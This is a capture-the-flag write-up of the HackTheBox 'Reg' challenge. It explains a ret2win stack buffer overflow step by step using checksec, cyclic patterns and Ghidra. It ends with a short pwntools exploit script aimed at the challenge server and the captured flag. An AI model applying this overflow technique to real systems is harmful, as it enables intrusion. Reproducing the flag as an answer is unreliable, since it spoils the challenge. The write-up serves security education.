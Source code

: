 # Reg
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/86622ff6-8221-4bfe-b66c-79b7ed193e2e)


## Lessons Learned:
1. Buffer Overflow.
2. Implement ret2win attack.

## DESCRIPTION:
This is a basic buffer flow exploit. Try to get the flag.

## STEPS:
1. First, unzip the `.zip` file given.
2. Next, check the file type we got.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469022-868db7be-e8d4-4678-a528-9f0bd0b2a919.png)


3. It's a 64 bit binary file, dynamically linked and **not stripped**. Since it's not stripped, hence it's easier for us debug or identify the function.
4. Now, check the binary's protection.

> RESULT 

```
No canary Found (means we can do bufferoverflow concept).
No PIE (means a binary and all of it's dependencies are loaded not in random locations within virtual memory each time the application executed).
Partial RELRO (some sections of the binary are read only, preventing them from being modified).
```

![image](https://user-images.githubusercontent.com/70703371/209469053-3655c77c-d080-476a-97e9-3b6bbe2ff4b4.png)


5. Now run the file in gdb.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469202-3e2f98a8-6865-4bcf-95b2-6b3bfc7e5907.png)


6. Let's enter 1024 cyclic pattern.

> RESULT - GOT SEGMENTATION FAULT

![image](https://user-images.githubusercontent.com/70703371/209469249-07d78d45-4722-47cf-a3bc-ba148c4871d3.png)


7. To find the correct bytes to overflow the buffer, copy all the RSP characters.
8. Then run this command -> `cyclic -l haaaaaaa`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209470737-928138e2-e96a-4c8f-8992-b8f2f0240da8.png)


9. 48 Bytes.
10. Let's decompile the file with ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469351-4d3d9e29-06ec-4204-9fdd-75d9879d3b34.png)


11. Check the `run()` function.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469676-7f32d029-9e29-4992-8d04-595a7ccf0221.png)


12. Based from the decompiled binary we got, the vuln is at the `gets()` function.
13. Notice there's a function named `winner()`.

![image](https://user-images.githubusercontent.com/70703371/209469428-a99621bc-4522-4f3c-9b18-65a419ea11c4.png)


![image](https://user-images.githubusercontent.com/70703371/209469656-afe9be66-2a62-46f1-a886-c0ad14f48bf7.png)



14. The concept here is ret2win, we can control the return address to the `winner()` function by overflow the buffer.
15. Now get the `winner()` address.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209469477-2d32a529-e4c5-4779-89d1-5c81ea270f00.png)


16. Convert that to decimal.
17. Here's our script so far.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('206.189.28.76',30687)
p = b'A' * 56
winAddr = 4198918 #0x401206
p += p64(winAddr)
sh.sendlineafter(b': ', p)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209469851-78320b70-54f0-4fe9-aedc-0ba8b378f3c5.png)


21. Got the flag!

## FLAG

```
HTB{N3W_70_pWn}
```

